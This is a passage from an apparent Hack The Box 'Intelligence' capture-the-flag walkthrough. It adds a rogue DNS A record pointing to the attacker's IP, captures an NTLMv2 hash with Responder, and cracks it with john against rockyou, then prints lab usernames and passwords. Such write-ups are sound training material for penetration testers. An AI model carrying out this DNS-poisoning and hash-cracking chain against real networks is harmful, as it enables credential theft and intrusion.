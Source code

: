 - `-u intelligence\\Tiffany.Molina` - The user to authenticate as;
- `-p NewIntelligenceCorpUser9876` - The user’s password;
- `--action add` - Adding a new record;
- `--record web-Strong` - The domain to add;
- `--data 10.10.16.29` - The data to add, in this case, the IP to resolve web-Strong to;
- `--type A` - The type of record to add.

Lets check if my system means Attacker machine is a part of that DNS record or not through `nslookup` tool →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ nslookup
> server intelligence.htb
Default server: intelligence.htb
Address: 10.10.10.248#53
> web-Strong
Server:		intelligence.htb
Address:	10.10.10.248#53

** server can not find web-Strong: SERVFAIL
```
{: .nolineno}

So It seams we are on the right track so according to `downdetector.ps1` script lets capture some data send to Ted Graves user with responder →

![Untitled](Intelligence/Untitled%204.png)

![Untitled](Intelligence/Untitled%205.png)

Now I got the TGT ticket so lets crack it with john or hashcat what ever you like I like both so I will be using john here →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Intelligence]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt --format=netntlmv2
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Mr.Teddy         (Ted.Graves)     
1g 0:00:00:09 DONE (2024-01-15 20:35) 0.1092g/s 1181Kp/s 1181Kc/s 1181KC/s Mrz.deltasigma..Mr BOB
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```
{: .nolineno}

```bash
intelligence\Ted.Graves : Mr.Teddy
```
{: .nolineno}

Now you now the password so lets use this password to access some service →

![Untitled](Intelligence/Untitled%206.png)
